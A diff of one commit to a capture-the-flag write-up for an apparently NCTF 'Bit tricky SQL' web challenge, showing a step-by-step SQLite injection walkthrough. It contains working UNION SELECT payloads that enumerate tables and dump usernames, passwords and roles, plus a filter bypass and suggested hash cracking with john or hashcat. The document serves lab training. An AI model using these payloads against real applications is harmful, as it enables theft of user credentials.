

Before and after one commit to L3e7nK5M/nctf-writeups, a Markdown page: web/Bit tricky SQL.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/web/Bit tricky SQL.md
+++ b/web/Bit tricky SQL.md
@@ -11,10 +11,11 @@
 | 2. Test a basic SQL injection:<br>`' OR 1 = 1 --` (fails) | <img width="600" height="152" alt="image" src="https://github.com/user-attachments/assets/478817a1-30a0-4289-a449-2f8465e56ea3" /><br><img width="600" height="75" alt="image" src="https://github.com/user-attachments/assets/77fbfe52-610e-4b84-a96c-47eeadedecee" /> |
 | 3. Try to bypass the filter:<br>Check `or`, `and`, `AND` ... finally **`Or` (capital O, lowercase r)** works | <img width="391" height="133" alt="image" src="https://github.com/user-attachments/assets/f8994442-e981-45b2-ac6e-2e95ccf2b0a4" /><br><img width="600" height="297" alt="image" src="https://github.com/user-attachments/assets/789b117f-28fb-4170-bd25-00309e303653" /> |
 | 4. Check the page for a **HINT**. | <img width="600" height="204" alt="image" src="https://github.com/user-attachments/assets/55f54fd0-354b-4ab1-8c47-1238e6238f31" /> |
-| 5. Find the number of columns:<br>```' ORDER BY [number] --``` | <img width="600" height="1014" alt="sql1" src="https://github.com/user-attachments/assets/2cf3133b-586a-417e-982f-bdd54d4f660c" /> |
+| 5. Find the number of columns:<br>```' ORDER BY [number] --```<br>Found columns number: 7 | <img width="600" height="1014" alt="sql1" src="https://github.com/user-attachments/assets/2cf3133b-586a-417e-982f-bdd54d4f660c" /> |
 | 6. Identify the database type:<br>Hint: *Lightweight DB* → **SQLite** | <img width="600" height="452" alt="image" src="https://github.com/user-attachments/assets/54a6a642-fdbf-4b7e-8e51-8576b9b27116" /> |
 | 7. SQLite has no traditional DB name (file-based).<br>Enumerate **table names** using `sqlite_master`. | <img width="600" height="408" alt="image" src="https://github.com/user-attachments/assets/8c4df384-36ba-43eb-9b1f-9d7aa4d62f6e" /><br><img width="600" height="527" alt="image" src="https://github.com/user-attachments/assets/2a1aa752-378f-4239-9466-2af78cdfdd72" /> |
 | 8. Extract table names from `sqlite_master`:<br>```' UNION SELECT null, name, null, null, null, null, null FROM sqlite_master --```<br>Found table: **`NCTFDBUsers`** | <img width="600" height="1010" alt="sql2" src="https://github.com/user-attachments/assets/1a1a2572-e661-4ba5-9d7e-d71cbe6500a3" /> |
 | 9. Enumerate columns using `pragma_table_info`:<br>```' UNION SELECT null, name, null, null, null, null, null FROM pragma_table_info('NCTFDBUsers') --```<br>Found columns: **username, password, role, ...**<br>After that, if you try changing the columns, it seems that the 2, 4, and 5 columns are displayed. | <img width="600" height="289" alt="image" src="https://github.com/user-attachments/assets/40f4bda5-fe9d-4e17-a509-393acc4c972b" /><br>[pragma table_info](https://sqlite.org/pragma.html) |
-|10. Enumerate username , password and role :<br>```' UNION SELECT null,username,null,password,role,null,null FROM NCTFDBUsers --```|<img width="600" height="588" alt="sql3" src="https://github.com/user-attachments/assets/14ec5b41-8926-4db1-8835-1f6ab80f81ba" /><br>we found admin user and password that plain text user.<br>youwill`rockyou`?|
-|11. Let's extisting username and password to the text.<br> then edit ○○.txt like this|
+| 10. Enumerate `username`, `password`, and `role`:<br>```' UNION SELECT null, username, null, password, role, null, null FROM NCTFDBUsers --```<br>We found the **admin user** and user whom password stored in plaintext.<br>youwill`rockyou`? | <img width="600" height="588" alt="sql3" src="https://github.com/user-attachments/assets/14ec5b41-8926-4db1-8835-1f6ab80f81ba" /> |
+| 11. Export the usernames and passwords to a text file.<br>Edit `○○.txt` like this.<br>Identify the hash using tools or [online services](https://hashes.com/en/decrypt/hash).<br>Found hash type: **SHA-256** | <img width="600" height="259" alt="image" src="https://github.com/user-attachments/assets/e0b3126d-f978-428e-be4d-579f4c8761c7" /> |
+| 12. Analyze the passwords using `john` (or `hashcat`). | |
````
